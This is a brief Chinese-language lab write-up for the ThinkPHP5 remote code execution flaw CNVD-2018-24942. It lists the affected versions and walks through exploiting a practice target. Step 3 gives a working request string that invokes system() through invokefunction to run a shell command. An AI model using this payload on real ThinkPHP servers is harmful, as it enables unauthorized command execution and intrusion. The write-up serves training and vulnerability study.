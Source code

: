 CNVD-2018-24942

# ThinkPHP5 远程代码执行漏洞

## 一、漏洞描述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 二、影响产品

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 三、利用流程

1 此漏洞对应靶场环境为 thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)

![avatar](/24942-1.png)
2 访问其如图所示

![avatar](/24942-2.png)

3 在其地址增加路径与参数即可

    /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
4 成功得到 flag
![avatar](/24942-3.png)

参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2018-24942
